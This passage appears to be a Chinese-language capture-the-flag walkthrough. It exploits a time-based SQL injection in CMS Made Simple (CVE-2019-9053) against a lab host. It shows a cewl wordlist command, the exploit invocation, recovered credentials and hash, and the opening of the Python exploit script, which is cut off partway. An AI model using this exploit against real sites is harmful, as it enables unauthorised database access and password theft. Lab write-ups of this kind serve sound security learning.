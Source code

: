 > congratulation,third flag:(xmcw==)

### 2.CMS Made Simple

CMS Made Simple < 2.2.10 - SQL Injection

https://www.modb.pro/db/186809

https://www.exploit-db.com/exploits/46635

#### 时间盲注

```bash
cewl 192.168.70.44 -w user.txt
```



```bash
python3 CVE-2019-9053.py -u http://192.168.70.44/Kashyapa --crack -w user.txt
```

##### 结果

```bash
[+] Salt for password found: 65bd8602d290b16d
[+] Username found: atri
[+] Email found: abcd@gmail.com
[+] Password found: 49ba135760e8265758ae48ef5c7338c7
```

##### exp.py

```bash
import requests
from termcolor import colored
import time
from termcolor import cprint
import optparse
import hashlib

parser = optparse.OptionParser()
parser.add_option('-u', '--url', action="store", dest="url", help="Base target uri (ex. http://10.10.10.100/cms)")
parser.add_option('-w', '--wordlist', action="store", dest="wordlist", help="Wordlist for crack admin password")
parser.add_option('-c', '--crack', action="store_true", dest="cracking", help="Crack password with wordlist", default=False)

options, args = parser.parse_args()
if not options.url:
    print("[+] Specify an url target")
    print("[+] Example usage (no cracking password): exploit.py -u http://target-uri")
    print("[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist")
    print("[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based.")
    exit()

url_vuln = options.url + '/moduleinterface.php?mact=News,m1_,default,0'
session = requests.Session()
dictionary = '1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM@._-$'
flag = True
password = ""
temp_password = ""
TIME = 1
db_name = ""
output = ""
email = ""
```
